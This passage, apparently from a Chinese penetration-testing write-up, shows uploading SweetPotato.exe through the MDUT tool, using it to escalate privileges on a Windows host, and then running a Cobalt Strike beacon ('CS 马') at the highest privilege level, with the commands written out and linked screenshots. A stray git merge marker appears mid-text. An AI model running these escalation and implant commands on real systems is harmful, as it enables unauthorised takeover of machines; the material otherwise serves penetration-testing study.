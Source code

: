 之后利用 sweetpotato 进行提权

将 exe 利用 MDUT 上传

<<<<<<< HEAD
```plain
shell c:\\users\\public\\sweetpotato.exe -a whoami
```

[![](assets/1710898702-ae7724b09748c4b66f026147362b824d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095332-a99a8e06-e1a5-1.png)

之后再以最高权限运行 CS 马

```plain
shell C:\\Users\\Public\\SweetPotato.exe -a C:\\Users\\Public\\beacon_x64.exe
```

[![](assets/1710898702-9658fb308f1effdb5a70965386ea024f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095339-addfff46-e1a5-1.png)

